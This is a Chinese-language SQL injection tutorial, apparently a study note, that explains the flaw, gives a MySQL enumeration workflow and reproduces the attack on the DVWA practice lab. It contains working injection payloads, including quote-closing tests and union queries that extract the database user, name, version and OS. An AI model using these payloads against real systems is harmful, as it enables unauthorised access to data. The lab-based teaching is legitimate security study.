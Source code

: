 # sql注入基础

- ### 漏洞原理

  对用户输入的数据没有做参数校验，sql语句没有做安全处理，导致用户可以通过参数控制sql语句从而查询一些敏感数据，甚至控制对方主机

- ### 漏洞利用

  前置知识

  ​    1、首先不同的数据库，漏洞注入的方式也不同，例如access数据库，属于独立存在的                   数据库，同时需要对其列名和表名进行猜解决，需要利用字典爆破或者偏移注入等手段

  ​    2、这里以mysql数据库举例，因为市场上mysql用到的比较多并且免费,mysql数据库 属于统一管理，不同网站之间有各种数据库，但都由mysql管理，所以mysql有数据库用户去管理，最高权限用户root

  ​    3、mysql5.0以上版本自带数据库名information_schema查询

  ​	information_schema可以查询数据库名，表名以及列名等信息

   利用流程：

  ​    0、判断注入类型，构造合适的sql语句

  ​	1、获取数据库版本-看是否符合information_schema查询 -version()

  ​	2、数据库用户是否为root权限-user() 

  ​    3、当前操作系统是否支持大小写以及文件读写-@@version_compile_os

  ​    4、数据库名称 database()

  ​	5、构造语句进行攻击

- ### 漏洞复现

  靶场DVWA windows11 phpstudy low级别

  ![image-20231128190231751](http://111.229.225.13:81/i/2023/11/28/vgmfy2-2.png)

  

构造语句1 and 1 = 1 #以及 1 and 1 = 2#页面均正常回显，因此判断不为数字型注入

1' and 1=1#有回显，1' and 1=2#无回显，判断为字符型注入并且闭合形式为单引号

![image-20231128190508809](http://111.229.225.13:81/i/2023/11/28/vi8brd-2.png)

其实可以理解为用户输入导致后端执行了非法的sql语句

```sql
select '1' 
select '1 and 1 = 1 #' 
select '1' and 1 = 2 #' 
select '1' and 1 = 1 #' 
select '1' and 1 = 2 #' 
```

掌握闭合条件，就可以构造自己想输入的sql语句

```sql

1' union select user(),database() from information_schema.schemata #
1' union select @@version_compile_os,version() from information_schema.schemata #

```

![image-20231128191110605](http://111.229.225.13:81/i/2023/11/28/vlthwf-2.png)

![image-20231128191210353](http://111.229.225.13:81/i/2023/11/28/vmeshr-2.png)

​    

同样可以理解为,后端执行下面的sql语句

```sql
select '1' union select user(),database() from information_schema.schemata #
select '1' union select @@version_compile_os,version() from information_schema.schemata #
```

### mysql基础

```sql
select [distinct] 字段名 [as 别名] from 表名 where 查询条件 [group by 分组字段 having 分组后的 查询条件] [order by 排序字段 desc/asc] [limit 分页参数]
```

```sql
union 可以合并两个及以上select语句查询的结果集
```



这里推荐一位博客[SQL注入漏洞全面总结_永不落的梦想的博客-CSDN博客](https://blog.csdn.net/m0_73185293/article/details/131754058?spm=1001.2014.3001.5501)

